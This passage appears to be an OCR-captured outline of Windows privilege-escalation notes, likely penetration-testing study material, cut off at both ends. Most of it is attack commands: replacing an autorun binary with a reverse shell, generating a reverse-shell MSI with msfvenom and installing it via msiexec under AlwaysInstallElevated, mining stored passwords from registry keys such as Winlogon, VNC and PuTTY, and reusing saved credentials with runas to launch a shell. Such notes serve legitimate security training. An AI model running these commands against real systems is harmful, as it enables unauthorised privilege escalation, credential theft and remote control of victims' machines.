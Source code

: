 				- > copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
				- > copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"

		- AlwaysInstallElevated

			- Detection

				- > .\winPEASany.exe quiet windowscreds
				- > reg query HKCU\SOFTWARE\Policies\Microsoft Windows\Installer /v AlwaysInstallElevated
				- > reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
				- Found both AlwaysInstallElevated = 1?

			- Exploitation

				- # msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=$PORT-f msi -o reverse.msi
				- > msiexec /quiet /qn /i C:\PrivEsc\reverse.msi

	- Password Mining

		- Registry

			- Detection

				- AutoLogon

					- > reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

				- VNC

					- > reg query "HKCU\Software\ORL\WinVNC3\Password"

				- SNMP Parameters

					- > reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

				- Passwords in Registry

					- > reg query HKLM /f password /t REG_SZ /s
					- > reg query HKCU /f password /t REG_SZ /s

				- > .\winPEASany.exe quiet filesinfo userinfo
				- > reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
				- > reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

			- Exploitation

				- # winexe -U 'admin%password123' //$IP cmd.exe

		- Saved Creds

			- Detection

				- > .\winPEAS.exe quiet cmd windowscreds
				- > cmdkey /list

			- Exploitation

				- > C:\PrivEsc\savecred.bat
				- > runas /savecred /user:admin C:\PrivEsc\reverse.exe

		- Configuration Files

			- Detection
